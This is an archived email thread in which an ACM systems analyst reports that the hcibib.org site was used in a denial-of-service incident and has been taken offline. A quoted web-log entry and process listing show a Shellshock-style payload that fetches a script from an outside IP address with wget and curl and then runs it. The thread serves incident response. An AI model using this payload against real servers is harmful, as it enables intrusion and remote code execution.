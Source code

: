>>>>>> I had to take the hcibib.org website offline tonight.   The site was used to execute a denial of service attack that took down the server.
>>>>>> Here is the reference from the hcibib.org weblogs
>>>>>>
>>>>>> 62.75.145.250 - - [06/May/2015:12:12:39 -0400] "GET / HTTP/1.1" 200 10740 "-" "() { :; }; /bin/bash -c 'rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1'"
>>>>>>
>>>>>> I put the entire weblog for today to your /home/Perlman
>>>>>>
>>>>>> The request executed a denial of service attack that started this.
>>>>>> apache   28593     1  0 12:12 ?        00:00:00 /bin/bash -c rm -rf /tmp/dd.sh /tmp/dd1.sh;wget http://62.75.145.250/dd.sh -O /tmp/dd.sh;curl http://62.75.145.250/dd.sh -o /tmp/dd1.sh;sh /tmp/dd.sh & sh /tmp/dd1.sh 0>&1
>>>>>>
>>>>>> Attached is a sample of what was running on the server.
>>>>>>
>>>>>> I have changed the default document root of the website until I hear from you.  I would prefer to bring the site back online restricted to the IP address that you will be connecting from so that you have time to properly examine you site and then we can open it back up.  Please let me know the IP address you will be connecting from and I will make the appropriate configuration changes.
>>>>>>
>>>>>> Thanks
>>>>>> Adam
>>>>>>
>>>>>>
>>>>>> Adam Greenberg
>>>>>> Senior Systems Analyst
>>>>>> Association for Computing Machinery
>>>>>> 2 Penn Plaza
>>>>>> Suite 701
>>>>>> New York, NY 10121
>>>>>> Office: 212-626-0573
>>>>>> greenberg@acm.org
>>>>>>
>>>>>>
>>>>>
>>>>>
>>>>
>>>>
>>>
>>> --
>>>
>>
>>
>
>

-- 

From perlman@turing.acm.org Wed May 13 11:08:39 2015 -0400
Status: 
X-Status: 
X-Keywords:
Date: Wed, 13 May 2015 11:08:39 -0400 (EDT)
From: Gary PERLMAN <perlman@turing.acm.org>
To: Adam Greenberg <greenberg@hq.acm.org>
Subject: RE: hcibib.org website problem
In-Reply-To: <CY1PR0501MB1241BBE5DF5F9F680D707FA99FD90@CY1PR0501MB1241.namprd05.prod.outlook.com>
Message-ID: <Pine.LNX.4.64.1505131103100.18729@turing.acm.org>
References: <BN3PR0501MB123593A3CC77235DDD7190659FD00@BN3PR0501MB1235.namprd05.prod.outlook.com>
 <Pine.LNX.4.64.1505081848190.27144@turing.acm.org>
 <CY1PR0501MB1241687AF2DB723952BDC7B09FDD0@CY1PR0501MB1241.namprd05.prod.outlook.com>
 <Pine.LNX.4.64.1505090950260.4925@turing.acm.org>